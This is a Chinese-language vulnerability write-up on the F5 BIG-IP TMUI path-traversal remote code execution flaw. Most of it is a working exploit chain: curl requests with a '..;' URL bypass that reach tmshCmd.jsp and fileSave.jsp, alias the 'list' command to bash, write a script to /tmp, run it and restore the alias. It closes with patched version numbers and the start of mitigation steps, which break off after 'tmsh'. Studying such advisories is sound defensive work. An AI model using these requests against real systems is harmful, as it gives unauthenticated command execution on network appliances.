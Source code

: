 ### 执行tmsh命令

 **tmshCmd.jsp + fileSave.jsp = Linux RCE**

```
1. tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
2. fileSave.jsp?fileName=/tmp/cmd&content=id
3. tmshCmd.jsp?command=list+/tmp/cmd
4. tmshCmd.jsp?command=delete+cli+alias+private+list
```

1. 修改alias劫持list命令为bash

```
curl -k "https://example.com/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash"
```

2. 写入bash文件

```
curl -k "https://example.com/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=id"
```

3. 执行bash文件

```
curl -k "https://example.com/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/test"
```

4. 还原list命令

```
curl -k "https://example.com/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list"
```

## 修复方案

### 通用修补建议：

升级到以下版本

- BIG-IP 15.x: 15.1.0.4
- BIG-IP 14.x: 14.1.2.6
- BIG-IP 13.x: 13.1.3.4
- BIG-IP 12.x: 12.1.5.2
- BIG-IP 11.x: 11.6.5.2

### 临时修补建议：

官方建议可以通过以下步骤临时缓解影响

1) 使用以下命令登录对应系统

```
tmsh
```
